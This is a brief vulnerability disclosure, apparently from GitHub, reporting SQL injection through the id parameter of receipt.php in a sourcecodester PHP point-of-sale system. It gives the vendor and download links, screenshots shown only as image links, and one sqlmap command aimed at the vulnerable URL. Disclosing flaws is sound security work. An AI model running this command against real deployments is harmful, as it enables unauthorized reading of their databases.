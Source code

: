 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220944581-040aae81-ca70-468d-aa5b-980134aca00f.png)


exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/receipt.php?id=1"
```

![image](https://user-images.githubusercontent.com/30823782/220944669-1b775b61-c570-42c8-b46c-95aa166a8e33.png)
